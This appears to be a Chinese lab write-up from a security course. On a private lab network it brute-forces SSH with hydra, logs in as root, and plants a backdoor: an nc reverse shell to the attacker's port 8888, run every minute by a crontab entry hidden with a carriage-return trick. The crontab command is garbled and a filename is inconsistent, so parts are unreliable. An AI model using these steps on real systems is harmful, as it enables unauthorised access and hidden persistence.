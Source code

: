 # 第五周

## SSH

Secure Shell(安全外壳协议)是一种加密的网络传输协议，可通过在网络中创建安全隧道来实现ssh客户端与服务器之间的连接

#### 通过ssh拿下服务器

靶机：kali-linux-2025.1a     192.168.43.116

攻击机：kali-linux-2024.4    192.168.43.225

![image-20250419211818972](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250419211818972.png)

![image-20250419205642402](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250419205642402.png)

![image-20250419212002742](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250419212002742.png)

1.信息收集  爆破ssh服务

   ssh服务是否启动

   ssh的默认端口：22

​    80：http服务

​    https:443

​    mysql:3306

​    RDP(远程桌面连接服务)：3389

![image-20250419214156174](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250419214156174.png)

2.爆破ssh

hydra：非常强大的暴力破解工具

![image-20250419214553859](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250419214553859.png)

######           hydra -L users.txt -P password.txt ssh://192.168.43.116

![image-20250420111549036](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250420111549036.png)

3. SSH登录

   ssh登录：ssh root@192.168.43.116

   ![image-20250420112449297](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250420112449297.png)

   

后门木马：

隐藏计划任务

**vim编辑器：文件存在会对文件进行编辑，文件不存在会创建文件**

进入`/tmp`目录，使用`vim`命令创建ryan.sh文件，文件内容为：

![image-20250420120044638](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250420120044638.png)

命令的意思是：使用bin.bash里面的shell，用nc命令反弹shell，反弹到攻击机的8888端口，-e代表需要执行的指令，这里是要执行/bin/bash。

输入`ls -l ryan.sh`命令，查看文件可执行权限。发现文件权限为：`-rw-r--r-- `，可读可写，但是没有可执行权限，因此需要添加命令`chmod +x tash.sh`。

创建ryan2.sh文件

![image-20250420120402298](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250420120402298.png)

· (crontab-l;printf"*****/5mp/ryan.sh;\mocrontab for whoami %100c\n")/crontab-

![image-20250420115414656](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250420115414656.png)

：-l 查看计划任务。输出* * * * *，每隔一分钟执行tmp下面的ryan.sh文件。\r是换行符。其余后面的参数都是计划任务。